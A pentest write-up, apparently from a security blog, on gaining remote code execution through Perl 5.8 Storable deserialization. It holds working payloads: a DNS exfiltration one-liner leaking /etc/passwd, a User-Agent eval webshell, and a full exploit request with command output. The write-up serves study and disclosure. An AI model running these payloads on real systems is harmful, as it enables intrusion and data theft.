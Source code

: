 
# Deserialization in Perl v5.8 | Agarri : Sécurité informatique offensive

[Original URL](http://www.agarri.fr/kom/archives/2016/02/06/deserialization_in_perl_v5_8/index.html)

> During a pentest, I found an application containing a form with a hidden parameter named "state". Encoded as Base64, it contains a few strings and some binary data: $ echo...

[]() During a pentest, I found an application containing a form with a hidden parameter named "state". Encoded as Base64, it contains a few strings and some binary data:

```
$ echo 'BAcIMTIzNDU2NzgECAgIAwMAAAAEAwAAAAAGAAAAcGFyYW1zCIIEAAAAc3RlcAQDAQAAAAiAHgAAAF9fZ2V0X3dvcmtmbG93X2J1c2luZXNzX3BhcmFtcwQAAABkYXRh' | base64 -d | hd 
00000000 04 07 08 31 32 33 34 35 36 37 38 04 08 08 08 03 |...12345678.....|
00000010 03 00 00 00 04 03 00 00 00 00 06 00 00 00 70 61 |..............pa|
00000020 72 61 6d 73 08 82 04 00 00 00 73 74 65 70 04 03 |rams......step..|
00000030 01 00 00 00 08 80 1e 00 00 00 5f 5f 67 65 74 5f |..........__get_|
00000040 77 6f 72 6b 66 6c 6f 77 5f 62 75 73 69 6e 65 73 |workflow_busines|
00000050 73 5f 70 61 72 61 6d 73 04 00 00 00 64 61 74 61 |s_params....data|
```

I launched a "Character frobber" attack using the Intruder tool from Burp Suite, in order to slightly corrupt this interesting parameter. The result was more than interesting:

![](http://www.agarri.fr/docs/frobber.png)

So the target is using Perl and v2.7 of the Storable format. A quick online search revealed that [Storable](http://perldoc.perl.org/Storable.html) is a Perl module used for data serialization. A big [security warning](http://perldoc.perl.org/Storable.html#SECURITY-WARNING) in the official documentation states the following:

```
Some features of Storable can lead to security vulnerabilities if you accept Storable documents from untrusted sources. Most
obviously, the optional (off by default) CODE reference serialization feature allows transfer of code to the deserializing
process. Furthermore, any serialized object will cause Storable to helpfully load the module corresponding to the class of
the object in the deserializing module. For manipulated module names, this can load almost arbitrary code. Finally, the
deserialized object's destructors will be invoked when the objects get destroyed in the deserializing process. Maliciously
crafted Storable documents may put such objects in the value of a hash key that is overridden by another key/value pair in
the same hash, thus causing immediate destructor execution.
```

Looking around for previous publications on this subject, I came along a video named [Weaponizing Perl Serialization Flaws with MetaSploit](https://www.youtube.com/watch?v=Gzx6KlqiIZE). As a bonus, the author published all the code related to his talk on [GitHub](https://github.com/lightsey/cve-2015-1592). And Metasploit includes the [exploit](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/webapp/sixapart_movabletype_storable_exec.rb) itself. So we have a known-to-be-vulnerable technology, a detailled explanantion of the weaponization process and some exploits working on a different target. Should not be too hard :-D But after some testing, I realized that I was unable to map my experimentations to the process described in the video :-( Anyway... after finding that Storable uses [by default](http://search.cpan.org/~ams/Storable-2.51/Storable.pm#MEMORY_STORE) an architecture-dependant format and that nfreeze() should be use for cross-platform serialization, I came up with the following code:

```
#!/usr/bin/perl

use MIME::Base64 qw( encode_base64 );
use Storable qw( nfreeze );

{
 package foobar;
 sub STORABLE_freeze { return 1; }
}

# Serialize the data
my $data = bless { ignore => 'this' }, 'foobar';
my $frozen = nfreeze($data);

# Encode as Base64+URL and display
$frozen = encode_base64($frozen, '');
$frozen =~ s/\+/%2B/g;
$frozen =~ s/=/%3D/g;
print "$frozen\n";
```

Producing the following interesting error:

```
No STORABLE_thaw defined for objects of class foobar (even after a "require foobar;") at ../../lib/Storable.pm (autosplit into ../../lib/auto/Storable/thaw.al) line 366, at /var/www/cgi-bin/victim line 29
For help, please send mail to the webmaster (support@bigcorp.tld), giving this error message and the time and date of the error.
```

It looks like the string "foobar" (under my control) is used in a "require" statement! So maybe that a single ";" would be enough to inject arbitrary Perl code :-D I rushed to the source code to confirm this behavior, but was quite disappointed after looking at [Storable.xs](https://metacpan.org/source/AMS/Storable-2.51/Storable.xs):

```
 if (!Gv_AMG(stash)) {
 const char *package = HvNAME_get(stash);
 TRACEME(("No overloading defined for package %s", package));
 TRACEME(("Going to load module '%s'", package));
 load_module(PERL_LOADMOD_NOIMPORT, newSVpv(package, 0), Nullsv);
 if (!Gv_AMG(stash)) {
 CROAK(("Cannot restore overloading on %s(0x%"UVxf") (package %s) (even after a \"require %s;\")",
 sv_reftype(sv, FALSE), PTR2UV(sv), package, package));
 }
 }
```

Despite was the error message says, there's no "require" but only a call to load_module(), as described in the video at 00:11:20 :-( But I tried anyway and patched the name of the serialized object to "POSIX;sleep(5)":

```
$ echo 'BQgTAg5QT1NJWDtzbGVlcCg1KQEx' | base64 -d | hd
00000000 05 08 13 02 0e 50 4f 53 49 58 3b 73 6c 65 65 70 |.....POSIX;sleep|
00000010 28 35 29 01 31 |(5).1|
```

And to my surprise, I got a delayed response when submitting it. What?!?! I went back to the source-code of the Storable module and noticed, some time later, the following change (when diffing Storable.xs v2.15 and v2.51):

```
4295,4298c4387,4388
< TRACEME(("Going to require module '%s' with '%s'", classname, SvPVX(psv)));
< 
< perl_eval_sv(psv, G_DISCARD);
< sv_free(psv);
---
> TRACEME(("Going to load module '%s'", classname));
> load_module(PERL_LOADMOD_NOIMPORT, newSVpv(classname, 0), Nullsv);
```

That would explain the error message! At some point, the object name was directly passed to a require statement evaluated via [perl_eval_sv()](http://search.cpan.org/~timb/perl5.004_04/pod/perlguts.pod#perl_eval_sv). And my target was running a version of Perl old enough to be impacted :-D In fact, every version of Perl >= 5.10 uses the new loading mechanism and some old distributions (like RHEL/CentOS 5) are still running Perl v5.8\. So I simply need to put my payload in the object name, after loading any default module like "POSIX". 252 bytes (the maximum length of an object name) is more than enough to insert a decent payload. For example, reading /etc/passwd and exfiltrating its content via DNS by chunks of 45 characters (189 bytes). Very useful when the target doesn't have any direct outbound connectivity or forbid to execute some binaries:

```
Socket;use MIME::Base64;sub x{$z=shift;for($i=0;$i<length($z);$i+=45){$x=encode_base64(substr($z,$i,$i+45),'');gethostbyname($x.".dom.tld");}} open(f,"/etc/passwd");while(<f>){x($_)}
```

Or, much shorter and powerful: pass some Perl code in the User-Agent HTTP header, eval it server-side then exit (39 bytes):

```
POSIX;eval($ENV{HTTP_USER_AGENT});exit;
```

In this specific scenario of a "dumb" CGI (without mod_perl, Catalyst, Mojolicious, ...) using [fatalsToBrowser](http://perldoc.perl.org/CGI/Carp.html#MAKING-PERL-ERRORS-APPEAR-IN-THE-BROWSER-WINDOW) from CGI::Carp, stdout and stderr will be redirected to the browser. So we can have a real webshell:

```
POST /cgi-bin/victim HTTP/1.1
Host: 192.168.2.103
User-Agent: system("id;uname -a;cat /etc/*release*");
Content-Type: application/x-www-form-urlencoded
Content-Length: 367

key=xs&state=BQgTAvxQT1NJWDtldmFsKCRFTlZ7SFRUUF9VU0VSX0FHRU5UfSk7ZXhpdDs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7OzsBMQ%3D%3D
```

And the response:

```
HTTP/1.1 200 OK
Date: Sat, 06 Feb 2016 16:51:09 GMT
Server: Apache/2.2.3 (CentOS)
Connection: close
Content-Type: text/html; charset=ISO-8859-1
Content-Length: 281

<html><head><title>Validation workflow</title></head><body>
<br/>uid=48(apache) gid=48(apache) groups=48(apache) context=root:system_r:httpd_sys_script_t:s0
Linux perlthaw 2.6.18-164.el5 #1 SMP Thu Sep 3 03:28:30 EDT 2009 x86_64 x86_64 x86_64 GNU/Linux
CentOS release 5.11 (Final)
```

Or, if you prefer a Burp Suite screenshot:

![](http://www.agarri.fr/docs/thaw-pwned.png)

PWNED! Feel free to play with the following files: the vulnerable programm [victim](http://www.agarri.fr/docs/victim) and the exploit itself [PoC_thaw_perl58.pl](http://www.agarri.fr/docs/PoC_thaw_perl58.pl). Please keep in mind that the exploitation path will be different on Perl > 5.8
